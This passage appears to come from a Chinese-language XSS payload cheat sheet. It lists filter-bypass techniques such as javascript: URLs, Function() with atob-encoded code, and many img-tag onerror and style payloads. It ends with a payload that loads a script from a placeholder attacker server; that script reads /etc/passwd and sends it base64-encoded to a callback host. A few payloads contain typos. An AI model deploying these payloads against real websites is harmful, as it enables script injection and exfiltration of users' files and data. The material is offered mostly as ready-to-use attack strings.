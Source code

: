 ### URL跳转未校验协议

    ?url=javascript:alert(1)
    
### 拼接绕过

举例

    <script>var a = alert;a(1);</script>
    
### 利用Function

JS有一个特性是Function()(); 大写的Function和小写的function其含义有所不同。对于Function()来说，写在其第一个括号内的JS语句会被直接执行。

    Function(alert('1'))();
    
如果alert被过滤,直接使用atob();函数，它的作用是把base64编码后的内容还原，我们直接把alert(1) base64编码一下
这个base64编码后的字符串填入atob中时，必须要去掉最后面的等于号，不然会失效

    Function(atob('YWxlcnQoMSk'))();

    
## 常用标签

### img标签

举例

    <img src=javascript:alert("xss")>
    <IMG SRC=javascript:alert(String.formCharCode(88,83,83))>
    <img scr="URL"style='Xss:expression(alert(/xss));'
    <img src="x"onerror=alert(1)>
    <img src="1"onerror=eval("alert('xss')")>
    <img src=1onmouseover=alert('xss')>
    <img STYLE="background-image:url(javascript:alert('XSS'))">
  
---  
    <img src=x onerror="document.write('<script src=http://攻击者服务器ip9/test.js></script>')"/>
    
    # cat test.js
    function reqListener () {
    var encoded = encodeURI(this.responseText);
    var b64 = btoa(this.responseText);
    var raw = this.responseText;
    document.write('<iframe src="反连服务器ip地址?data='+b64+'"></iframe>');
    }
    var oReq = new XMLHttpRequest();
    oReq.addEventListener("load", reqListener);
    oReq.open("GET", "file:///etc/passwd");
    oReq.send();
---
    